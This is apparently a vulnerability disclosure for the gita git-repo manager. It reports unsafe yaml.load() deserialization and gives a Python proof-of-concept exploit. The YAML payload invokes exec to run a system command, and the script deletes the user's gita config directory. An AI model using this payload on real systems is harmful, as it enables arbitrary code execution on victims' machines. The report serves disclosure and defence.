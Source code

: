 ## ✍️ Description
gita helps to Manage multiple git repos with sanity.
* **Vulnerability description**
Vulnerable to YAML deserialization attack caused by unsafe loading.
## 🕵️‍♂️ Proof of Concept
```
# vulnerable part of code
yaml.load() in get_cmds_from_files()

https://github.com/nosarthur/gita/blob/master/gita/utils.py#L236
https://github.com/nosarthur/gita/blob/master/gita/utils.py#L244
```
```python
# exploit.py
import os
os.sysem('pip3 install gita')
from gita.utils import get_cmds_from_files
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
os.system("cd ~/.config")
os.system('rm -r gita')
os.system("mkdir gita")
os.chdir("gita")
open('cmds.yml','w+').write(payload)
get_cmds_from_files()
print("calc has been poped -> Arbitrary Code Execution")
```
![gita_pc](https://user-images.githubusercontent.com/43377443/104534296-08c2ad00-563a-11eb-9063-89e7d62b76e1.PNG)
